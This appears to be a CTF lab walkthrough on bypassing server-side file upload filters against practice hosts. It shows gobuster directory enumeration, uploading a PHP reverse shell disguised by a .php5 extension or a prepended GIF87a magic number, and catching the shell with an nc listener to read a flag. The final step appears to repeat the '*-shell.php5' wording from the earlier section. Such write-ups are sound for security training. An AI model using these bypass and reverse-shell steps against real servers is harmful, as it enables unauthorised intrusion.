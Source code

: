 > 📌 "The key to bypassing any kind of server side filter is to enumerate and see what is allowed, as well as what is blocked; then try to craft a payload which can pass the criteria the filter is looking for."
>

- Find the assets folder

```bash
gobuster dir -u http://annex.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```

- [http://annex.uploadvulns.thm/assets/](http://annex.uploadvulns.thm/assets/)
- [http://annex.uploadvulns.thm/privacy/](http://annex.uploadvulns.thm/privacy/) - this is where the files are uploaded with randomized naming scheme
- Try to upload `shell.php` - errors
- Try to upload `shell-png.php` - errors
- Try to upload `shell.php5` - works, file uploaded successfully
- Set up a `nc` listener and navigate to [http://annex.uploadvulns.thm/privacy/](http://annex.uploadvulns.thm/privacy/)
  - Access the randomized naming `*-shell.php5` file to receive the reverse shell

```bash
nc -nvlp 1234

# Rev Shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ cat /var/www/flag.txt
```

---

## Server-Side filtering bypass - magic numbers

> 📌 Magic numbers, the initial hex digits in a file, can validate file uploads by matching against a whitelist or blacklist, though their reliability varies by webserver type.
>
> - [List of file signatures - Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

```bash
gobuster dir -u http://magic.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```

- [http://magic.uploadvulns.thm/graphics/](http://magic.uploadvulns.thm/graphics/)
- [http://magic.uploadvulns.thm/assets/](http://magic.uploadvulns.thm/assets/)
- Try to upload `shell.php` - errors "GIFs only please!"
- Duplicate `shell.php` to `magic.php` file. Edit it with a hex editor and add the GIF file signature (ASCII is `GIF87a` - check [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) )
- Upload the new `magic.php` file with GIF Hex signature - "File successfully uploaded"
- Set up a `nc` listener and navigate to [http://magic.uploadvulns.thm/graphics/magic.php](http://magic.uploadvulns.thm/graphics/magic.php)
  - Access the randomized naming `*-shell.php5` file to receive the reverse shell
